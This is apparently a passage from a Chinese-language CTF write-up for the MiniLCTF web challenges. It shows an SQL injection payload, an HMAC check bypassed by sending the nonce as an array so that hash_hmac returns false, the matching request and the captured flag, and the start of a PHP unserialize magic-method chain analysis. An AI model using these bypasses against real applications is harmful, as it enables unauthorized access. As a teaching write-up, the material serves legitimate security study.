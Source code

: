 payload

```php
username=admin' group by @`
```

![](https://ws1.sinaimg.cn/large/006Vib6xly1frec08cfrbj30b20683yx.jpg)

### easy bypass

当我们给`hash_hmac`第二个参数传递的值为数组的时候，会返回`false`

这时`secret`的值我们就可以控制为`false`

本地输出一下

```
php > echo hash_hmac('sha256', 1, false);
41e0a9448f91edba4b05c6c2fc0edb1d6418aa292b5b2942637bec43a29b9523
```

Payload

```
hmac=41e0a9448f91edba4b05c6c2fc0edb1d6418aa292b5b2942637bec43a29b9523&host=1&nonce[]=1
```

即可绕过验证，获得flag`MiniLCTF{3asy_hm4c_Byp4ss_for_U}`

![](https://ws1.sinaimg.cn/large/006Vib6xly1frebentdshj30kr0di0v1.jpg)

### easy_unserialize

```
蛋黄是一只懒惰的肥猫。有一天他想瞄一眼flag，但是flag被层层的php魔法拦住了。你能帮他嘛？
```

需要了解一下php的类

利用实例化类时会自动执行`__construct()`函数来给变量赋值，以达到我们想要的结果

在`gg`类中，`$this->gg `调用了`start`类中的`get1()`方法

利用

```php
public function __construct()
{
  $this->gg = new start();
}
```

只要我们实例化一个`gg`类就可以让`$this->gg`变成`start`的一个实例，从而达到调用`get1()`方法的目的

往下看，在`cat`类中，我们看到一个`__invoke()`魔法函数，里面是一个`echo`，想到如果`echo`一个类的话，就会去调用`__toString()`魔法函数，而后面的`test`类中确实有一个`__toString()`，而且还调用了`getFlag()` 方法，正式我们想要达到的目的

返回来看`__invoke()`，当脚本尝试将对象调用为函数时，调用`__invoke()`方法

仔细找一下，有没有可能将类当作函数来调用的地方
